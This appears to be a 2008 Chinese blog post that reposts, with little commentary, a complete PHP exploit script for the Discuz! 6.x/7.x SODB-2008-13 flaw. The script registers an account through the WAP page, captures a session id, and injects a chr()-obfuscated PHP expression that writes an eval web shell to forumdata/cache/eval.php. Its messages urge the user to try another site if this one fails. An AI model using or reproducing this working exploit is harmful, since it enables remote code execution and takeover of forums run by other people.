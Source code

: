```yaml
---
title: Discuz! 6.x/7.x SODB-2008-13 Exploit
description: Discuz!6.x/7.xSODB-2008-13Exploit，这个洞最近几天好像闹的比较厉害，今天看到华东黑客联盟（www.3hack.com）被黑，貌似就是因为这个洞的关系。废话不多说，直接帖代码：
date: 2008-11-16 10:26:30
category: 漏洞信息
tags: ['Discuz!', 'exploit']
post_id: 683
alias: Discuz!-6.x-7.x-SODB-2008-13-Exploit
ViewNums: 2897
---
```


[Discuz! 6.x/7.x SODB-2008-13 Exploit](/blog/discuz%21-6x-7x-sodb-2008-13-exploit)，这个洞最近几天好像闹的比较厉害，今天看到华东黑客联盟（[www.3hack.com](http://www.3hack.com)）被黑，貌似就是因为这个洞的关系。

废话不多说，直接帖代码：

#!/usr/bin/php
<?php
/**
* [Discuz! 6.x/7.x SODB-2008-13 Exp](/blog/discuz%21-6x-7x-sodb-2008-13-exploit)
* By www.80vul.com
* 文件中注释的变量值请自行修改
*/

$host = 'www.80vul.com';
// 服务器域名或IP
$path = '/discuz/';
// 程序所在的路径
$key  = 0;
// 上面的变量编辑好后，请将此处的值改为1

if (strpos($host, '://') !== false || strpos($path, '/') === false || $key !== 1)
exit("专业点好不,先看看里面的注释 -,-
");

error_reporting(7);
ini_set('max_execution_time', 0);

$key = time();
$cmd = 'action=register&username='.$key.'&password='.$key.'&email='.$key.'@80vul.com&_DCACHE=1';
$resp = send();

preg_match('/logout=yes&amp;formhash=[a-z0-9]{8}&amp;sid=([a-zA-Z0-9]{6})/', $resp, $sid);

if (!$sid)
exit("哦,大概是没有开启WAP注册吧 -,-
");

$cmd = 'stylejump[1]=1&styleid=1&inajax=1&transsidstatus=1&sid='.$sid[1].'&creditsformula=${${fputs(fopen(chr(46).chr(46).chr(47).chr(102).chr(111).chr(114).chr(117).chr(109).chr(100).chr(97).chr(116).chr(97).chr(47).chr(99).chr(97).chr(99).chr(104).chr(101).chr(47).chr(101).chr(118).chr(97).chr(108).chr(46).chr(112).chr(104).chr(112),chr(119).chr(43)),chr(60).chr(63).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(93).chr(41).chr(63).chr(62).chr(56).chr(48).chr(118).chr(117).chr(108))}}';
send();

$shell = 'http://'.$host.$path.'forumdata/cache/eval.php';

if (file_get_contents($shell) == '80vul')
exit("好了,去看看你的WebShell吧: $shell
里面的代码是: <?eval($_POST[c])?>
别告诉我你不会用 -,-
");
else
exit("嗯,大概是该网站不存在漏洞,换一个吧 -,-
");

function send()
{
global $host, $path, $url, $cmd;

$data = "POST ".$path."wap/index.php  HTTP/1.1
";
$data .= "Accept: */*
";
$data .= "Accept-Language: zh-cn
";
$data .= "Referer: http://$host$path
";
$data .= "Content-Type: application/x-www-form-urlencoded
";
$data .= "User-Agent: Opera/9.62 (X11; Linux i686; U; zh-cn) Presto/2.1.1
";
$data .= "Host: $host
";
$data .= "Connection: Close
";
$data .= "Content-Length: ".strlen($cmd)."
";
$data .= $cmd;

$fp = fsockopen($host, 80);
fputs($fp, $data);

$resp = '';

while ($fp && !feof($fp))
$resp .= fread($fp, 1024);

return $resp;
}

?>

